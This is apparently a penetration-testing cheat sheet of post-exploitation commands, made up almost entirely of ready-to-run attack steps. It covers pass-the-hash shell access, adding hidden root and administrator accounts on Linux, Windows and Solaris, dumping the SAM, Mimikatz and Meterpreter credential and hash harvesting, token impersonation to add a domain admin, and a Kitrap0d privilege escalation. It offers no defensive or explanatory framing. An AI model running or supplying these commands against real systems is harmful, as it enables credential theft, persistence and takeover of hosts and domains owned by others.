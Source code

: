 ## Post Exploitation

Command prompt access on Windows Host
```bash
pth-winexe -U Administrator%<hash> //<host ip> cmd.exe
```

Add Linux User
```bash
/usr/sbin/useradd –g 0 –u 0 –o user
echo user:password | /usr/sbin/chpasswd
```

Add Windows User
```
net user username password@1 /add
net localgroup administrators username /add
```

Solaris Commands
```bash
useradd -o user
passwd user
usermod -R root user
```

Dump remote SAM:
```bash
PwDump.exe -u localadmin 192.168.0.1
```

Mimikatz
```bash
mimikatz # privilege::debug
mimikatz # sekurlsa::logonPasswords full
```

Meterpreter
```bash
meterpreter> run winenum
meterpreter> use post/windows/gather/smart_hashdump

meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token TVM\domainadmin
meterpreter > add_user hacker password1 -h 192.168.0.10
meterpreter > add_group_user "Domain Admins" hacker -h 192.168.0.10

meterpreter > load mimikatz
meterpreter > wdigest
meterpreter > getWdigestPasswords
Migrate if does not work!
```

Kitrap0d
```bash
Download vdmallowed.exe and vdmexploit.dll to victim
Run vdmallowed.exe to execute system shell
```
